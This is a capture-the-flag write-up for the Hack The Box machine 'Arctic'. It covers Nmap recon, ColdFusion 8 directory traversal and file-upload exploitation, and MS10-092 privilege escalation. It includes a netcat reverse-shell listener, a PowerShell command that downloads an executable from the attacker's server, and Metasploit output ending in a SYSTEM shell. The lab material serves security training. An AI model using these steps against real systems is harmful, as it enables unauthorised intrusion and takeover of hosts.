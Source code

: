 # Hackthebox 


Before we start lets spin up a fresh instance of the box.

### Attack Summary

1. Exploit Adobe Cold Fusion 8
2. Exploit MS10-092 schelevator

## Recon

First, as always. we perform our initial enumeration of the box using Nmap.

```
# Nmap 7.80 scan initiated Sun Oct 20 14:48:11 2019 as: nmap -v -sV -p- -T4 -oA nmap/full_tcp 10.10.10.11
Nmap scan report for 10.10.10.11
Host is up (0.041s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

At port 8500 we find a Cold Fusion install. We can clearly see that it is a Adobe Cold Fusion 8 version and we have and administrative login at "http://10.10.10.11:8500/CFIDE/administrator/"

Searching for exploits reveal a couple that we potentially could use

![cf_hash](../images/arctic_list.png)


## Initial Compromise

The problem with this box is that the web application is very slow. I dont really know why but even a freshly reset box is slow.

### Adobe ColdFusion - Directory Traversal

So we could use the "Adobe ColdFusion - Directory Traversal" exploit to extract some hashes and from that a password. 
The hashes are SHA1 hashed. A simple search online and we find that the password for our hash is "happyday".

![cf_hash](../images/arctic_cf.png)

I was not able to use this password to log in so I went on to another exploit "ColdFusion 8.0.1 Arbitrary File Upload and Execute".

### ColdFusion 8.0.1 Arbitrary File Upload and Execute

There is a Metasploit module present for this exploit which is making things easy for us. The only problem here is that it will fail because the app is so slow.
We can solve this by using burp as proxy in Metasploit and the fire the exploit from Burp instead.

```
root@kali:~/htb# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.11] 49528
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## Establish Foothold

The first thing I usually do when I have an initial foothold on a system is to upgrade our shell. This is because some tasks and exploits during our privesc phase may require a full TTY to work. Trust me, I have learned this the hard way.

Next I upgraded the shell to a Meterpreter session by uploading an executable and running it.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.14.22:8000/met.exe','met.exe')"
```

## Host situational awareness

Running the local exploit suggester module from Metasploit shows that the target is vulnerable to some exploits:

```
Exploit suggester:
[*] 10.10.10.11 - Collecting local exploits for x64/windows...
[*] 10.10.10.11 - 11 exploit checks are being tried...
[+] 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[*] Post module execution completed
```
 
## Privilege Escalation

We can then simply use one of suggested exploits to gain a system shell on the box:

```
msf5 exploit(windows/local/ms10_092_schelevator) > exploit 

[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] Preparing payload at C:\Users\tolis\AppData\Local\Temp\sXuWiNWP.exe
[*] Creating task: Kzzt9XjHvJmem0
[*] SUCCESS: The scheduled task "Kzzt9XjHvJmem0" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\Kzzt9XjHvJmem0...
[*] Original CRC32: 0x98752fbb
[*] Final CRC32: 0x98752fbb
[*] Writing our modified content back...
[*] Validating task: Kzzt9XjHvJmem0
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] Kzzt9XjHvJmem0                           1/11/2019 8:30:00    Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "Kzzt9XjHvJmem0" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "Kzzt9XjHvJmem0" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (180291 bytes) to 10.10.10.11
[*] SUCCESS: Attempted to run the scheduled task "Kzzt9XjHvJmem0".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.22:4444 -> 10.10.10.11:49373) at 2019-10-24 23:32:22 +0200
[*] SUCCESS: The scheduled task "Kzzt9XjHvJmem0" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
